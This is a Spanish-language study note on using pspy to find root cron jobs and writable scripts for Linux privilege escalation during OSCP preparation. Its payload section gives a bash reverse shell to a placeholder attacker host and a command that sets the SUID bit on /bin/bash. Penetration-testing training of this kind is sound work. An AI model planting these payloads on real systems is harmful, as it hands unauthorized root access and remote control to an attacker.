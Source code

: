 # 🛠️ Uso de `pspy` para Enumeración y Escalada de Privilegios 

## 📌 ¿Qué es `pspy`?

`pspy` es una herramienta que permite observar procesos en sistemas Linux sin necesidad de privilegios de root. Es útil para detectar **scripts automatizados, cron jobs** y otros procesos que pueden ser explotados para escalar privilegios.

- 📦 Repositorio: [https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)

---

## ✅ ¿Por qué es útil ?

- No requiere root.
- Detecta procesos en tiempo real.
- Ideal para encontrar **cron jobs mal configurados**, ejecución de scripts como root, archivos temporales modificables, etc.
- Ayuda a detectar rutas de escalada locales poco evidentes.

---

## 📥 Descarga

Descargar desde GitHub la versión adecuada para la arquitectura:

```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
chmod +x pspy64
```

> También hay versión de 32 bits (`pspy32`) si estás en una máquina x86.

---

## 🚀 Ejecución Básica

```bash
./pspy64
```

- Muestra todos los procesos que se están ejecutando en el sistema.
- No requiere permisos especiales.

---

## 🔍 ¿Qué debo buscar?

### 🕑 Tareas programadas (cron jobs)
- Buscar comandos ejecutados cada minuto o cada cierto tiempo.
- Ver si esos scripts son **propiedad de root pero modificables por el usuario actual**.

### 🧩 Scripts ejecutados automáticamente
- Archivos `.sh`, `.py`, `.pl` lanzados automáticamente.
- Comprobar si están ubicados en rutas accesibles: `/tmp`, `/home/user/`, etc.

### 📝 Escritura en rutas
- Verifica si los scripts tienen permisos de escritura:
  
  ```bash
  ls -l /ruta/al/script.sh
  ```

- Si puedes escribir en ellos y los ejecuta root, podrías insertar un payload.

### 🔐 Binaris con PATH mal configurado
- Algunos scripts pueden ejecutar binarios sin ruta absoluta (ej. `cp`, `tar`, etc.).
- Si puedes modificar el PATH, puedes hacer que se ejecute tu binario malicioso.

---

## 📚 Ejemplo Real

```bash
2025/04/22 12:00:01 CMD: UID=0    PID=1234   | /bin/sh /usr/local/bin/backup.sh
```

Luego:
```bash
ls -la /usr/local/bin/backup.sh
# -rwxrwxr-x 1 root user 234 Apr 22 12:00 /usr/local/bin/backup.sh
```

✔️ Si puedes modificar `backup.sh`, puedes añadir reverse shell, cambiar permisos, etc.

---

## 💡 Tips para OSCP

- Ejecuta `pspy` inmediatamente después de obtener una shell.
- Déjalo corriendo mientras haces otras tareas. Observa comportamientos extraños.
- Combínalo con `linpeas`, `ps -ef`, y `find` para descubrir vectores.
- Apóyate en técnicas como:
  - **PATH hijacking**
  - **cronjob exploitation**
  - **SUID abuse combinado con procesos observados**

---

## 🔐 Payloads comunes para scripts

### Reverse shell en bash:
```bash
bash -i >& /dev/tcp/TU_IP/PUERTO 0>&1
```

### Escalada con chmod:
```bash
chmod +s /bin/bash
```

---

## 🧠 Cosas a recordar para el examen

- Lleva `pspy` listo en tu máquina atacante.
- Usa `scp`, `nc`, o `python -m http.server` para transferirlo.
- Ten preparado un **script de enumeración automática** que lo ejecute tras conseguir acceso.